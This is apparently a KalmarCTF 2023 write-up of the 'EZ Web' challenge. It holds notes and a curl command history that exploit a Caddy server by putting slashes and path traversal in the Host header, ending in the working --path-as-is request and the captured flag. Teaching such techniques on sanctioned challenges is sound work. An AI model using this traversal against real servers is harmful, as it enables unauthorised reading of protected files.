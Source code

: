 ```yaml
---
title: "KalmarCTF 2023 - EZ Web - Writeup"
date: "2023-03-05"
---
```


I participated in KalmarCTF as part of team Kassipojad :cat2:. One of the best CTFs I've ever played!!

Here's a writeup of the EZ Web task, or rather a dump of the notes I took:

## What do we know?

* URL https://www.caddy.chal-kalmarc.tf/flag.txt returns 403
* https://php.caddy.chal-kalmarc.tf/flag.txt
* https://php.caddy.chal-kalmarc.tf/index.php
* https://static.caddy.chal-kalmarc.tf/logo_round.svg
* Source is included 
* compose file includes some backup step
* Backups folder includes the host
  * `cp -r *.caddy.chal-kalmarc.tf backups/ && rm php.caddy.chal-kalmarc.tf/flag.txt && sleep 1 && caddy run`
* Can use slashes in host
* Caddy v1 has an admin API on a separate port
* Caddy matchers (`respond /flag.txt`) don't run `path.Clean()`
* Caddy staticfile server (`root /srv/$host/`) performs `path.Clean()`

## What to do:

* Make caddy read a file from `/srv/backups/php.caddy.chal-kalmarc.tf/flag.txt`
* Root `/srv/{host}` looks promising...
  * Does it trust the Host header?
    * Yes it does
  * Does it accept slashes?
    * Yes it does

## Started trying...

```
 4972  curl -H 'Host: php.caddy.chal-kalmarc.tf' https://php.caddy.chal-kalmarc.tf/index.php
 4973  curl -k -v -H 'Host: php.caddy.chal-kalmarc.tf' https://php.caddy.chal-kalmarc.tf/index.php
 4974  curl -k -v -H 'Host: ../flag.txt.caddy.chal-kalmarc.tf' https://php.caddy.chal-kalmarc.tf/
 4975  curl -k -v -H 'Host: index.html.caddy.chal-kalmarc.tf' https://php.caddy.chal-kalmarc.tf/
 4976  curl -k -v -H 'Host: wow.caddy.chal-kalmarc.tf' https://php.caddy.chal-kalmarc.tf/
 4977  curl -k -v -H 'Host: stderr.caddy.chal-kalmarc.tf' https://php.caddy.chal-kalmarc.tf/
 4978  curl -k -v -H 'Host: wow' https://php.caddy.chal-kalmarc.tf/
 4979  curl -k -v -H 'Host: flag.txt' https://php.caddy.chal-kalmarc.tf/
 4980  curl -k -v  https://backups.php.caddy.chal-kalmarc.tf/flag.txt
 4981  curl -k -v  http://backups.php.caddy.chal-kalmarc.tf/flag.txt
 4982  curl -k -v  http://backups.php.caddy.chal-kalmarc.tf:443/flag.txt
 4983  curl -k -v  http://backups.php.caddy.chal-kalmarc.tf:443/index.php
 4984  curl -k -v  https://backups.php.caddy.chal-kalmarc.tf:443/index.php
 4985  curl -v  https://php.caddy.chal-kalmarc.tf:443/index.php
 4986  curl -vk  https://php.caddy.chal-kalmarc.tf:443/index.php
```

This is not working.

## So let's keep trying the backup idea:

```
 4987  curl -vk -H 'Host: backups.php.caddy.chal-kalmarc.tf' https://php.caddy.chal-kalmarc.tf:443/index.php
 4988  curl -vk -H 'Host: backups/php.caddy.chal-kalmarc.tf' https://php.caddy.chal-kalmarc.tf:443/index.php
 4989  curl -vk -H 'Host: backups/php.caddy.chal-kalmarc.tf' https://php.caddy.chal-kalmarc.tf:443/flag.txt
 4990  curl -vk -H 'Host: backups/php.caddy.chal-kalmarc.tf' https://php.caddy.chal-kalmarc.tf:443/index.php
 4991  curl -vk -H 'Host: backups/php.caddy.chal-kalmarc.tf' https://php.caddy.chal-kalmarc.tf:443/./index.php
 4992  curl -vk -H 'Host: backups/php.caddy.chal-kalmarc.tf' https://php.caddy.chal-kalmarc.tf:443/'./index.php'
 4993  curl -vk -H 'Host: backups/php.caddy.chal-kalmarc.tf' https://php.caddy.chal-kalmarc.tf:443/../index.php
 4994  curl -vk -H 'Host: backups/php.caddy.chal-kalmarc.tf/flag.txt' https://php.caddy.chal-kalmarc.tf:443/
 4995  curl -vk -H 'Host: backups/php.caddy.chal-kalmarc.tf/flag.txt' https://php.caddy.chal-kalmarc.tf:443/index.php
 4996  curl -vk -H 'Host: backups/php.caddy.chal-kalmarc.tf' https://php.caddy.chal-kalmarc.tf:443/f\*
 4997  curl -vk -H 'Host: backups/php.caddy.chal-kalmarc.tf' https://php.caddy.chal-kalmarc.tf:443/flag.txt
```

## Heureka

Wait, curl, don't normalize the path!

After a lot of trying:

```
❯ curl --path-as-is -vk -H 'Host: backups/php.caddy.chal-kalmarc.tf' https://php.caddy.chal-kalmarc.tf:443/./flag.txt
```

So yes, the "respond" matcher was not normalizing paths the same way the file server was.

kalmar{th1s-w4s-2x0d4ys-wh3n-C4ddy==2.4}

## Learnings

* Even caddy has unique behaviors
* Don't get stuck on the admin endpoint

